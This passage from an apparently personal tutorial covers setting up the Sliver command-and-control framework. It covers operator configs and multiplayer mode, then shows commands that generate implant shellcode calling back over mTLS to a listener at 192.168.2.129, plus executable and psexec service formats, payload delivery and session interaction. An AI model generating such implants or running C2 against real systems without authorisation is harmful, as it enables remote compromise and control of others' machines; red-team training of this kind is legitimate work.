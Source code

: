Now first we have to add a new operator by creating an operator config file. These files contain authentication and connection info for your team server.

```bash
new-operator --name eversinc33 --lhost 127.0.0.1
```

Afterwards, copy your config file to `~/.sliver-client/configs`.

Finally, enable multiplayer mode, to allow operator login:

```bash
multiplayer
```

To connect to the server as an operator, run `sliver-client` and select your configuration file, if there are multiple.

If you have connection errors with the Sliver-client, it is likely that you forgot to run the above `multiplayer` command, as it needs to be run every time the server is started.

### Generating Implants

There are many options for generating implants and I recommend to read through them all with `help generate`. Note that by default a `session`-implant is generated, which communicates in a real time fashion. To generate a `beacon` implant, that periodically checks back for tasks, use `generate beacon`. Staged implants can be generated with `generate stager`. All your implants can be listed with `implants` and regenerated with `regenerate IMPLANT_NAME`.

I generate the shellcode for an mTLS-based implant here. Compilation may take some time. 

```bash
generate -N IMPLANT_NAME --mtls 192.168.2.129 -f shellcode -s /tmp/sliver.bin
```

Besides `shellcode`, you can also generate an `exe`, a dynamic library (`shared`) or a `service` to use for `psexec`.

Don't forget to start the listener with, in this case, `mtls`.

If you then deliver and execute the payload using your favorite method, we get a connection back. 

![](/newsesh.png)

## Interacting with a session

We can start to interact with our agent with `use <ID>`. List available sessions and beacons with `sessions` and `beacons` respectively:

![](/listsessions.png)